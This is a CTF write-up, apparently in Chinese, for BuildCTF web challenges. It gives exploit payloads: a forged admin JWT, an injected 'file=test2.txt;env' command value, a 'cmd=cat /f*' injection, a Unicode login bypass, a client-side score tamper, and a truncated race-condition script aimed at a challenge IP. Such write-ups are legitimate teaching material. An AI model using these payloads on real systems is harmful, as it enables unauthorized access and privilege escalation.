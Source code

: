 注册登录拿jwt, 改role为admin, 用秘钥BuildCTF加密得eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJ4dCIsInJvbGUiOiJhZG1pbiIsImV4cCI6MTcyOTMyMjc1NH0.5OMCHZdCC4zXZeeBdlI7iZxzh_CUxx1f8U3FDqi4kRs

file=test2.txt;env

## eazyl0gin

```javascript
username: "buıldCTF"
password: "012346"
```

https://www.leavesongs.com/HTML/javascript-up-low-ercase-tip.html

## Cookie_Factory

ctrl+shift+i打开开发者工具

socket.on('error'处下断点 f5刷新

```javascript
 socket.emit('click', JSON.stringify({ "power": 1000000000000000000000000000000000000000000000000000000000000000000000, "value": send.value }));socket.on('error', function (msg) {    console.log("Error")   });socket.on('recievedScore', function (msg) {    let scores = JSON.parse(msg)    send.value = scores.value    console.log(scores.value) });
```

运行

## 刮刮乐

http头加 referer:baidu.com

cmd=cat /f*>>4

curl访问路径4

## fake_signin

![img](D:\wp\img\2.png)

flask默认开启多线程（threaded默认True），而users是全局变量，多线程并进，每个都会访问修改users，在supplement_count+=1还未返回时，开多个线程可以同时签到

条件竞争，一次直接签30个

```Python
from concurrent.futures import *

url = "http://27.25.151.80:43427"

import requests
req = requests.session()
def login():
    req.post(f"{url}/login", data={'username':"admin", 'password': "admin"})

def attack(date):
    rsp = req.post(f"{url}/supplement_signin", data= {"supplement_date": date})
    if b'BuildCTF{' in rsp.content:
        c = rsp.content
        f1 = c.find(b'BuildCTF{')
        f2 = c.find(b'}', f1)
        print(c[f1:f2 + 1])
        exit(0)

if __name__ == '__main__':
    payloads = [f'2024-09-{str(i).zfill(2)}' for i in range(1, 31)]
    login()
    thr = ThreadPoolExecutor(30)
```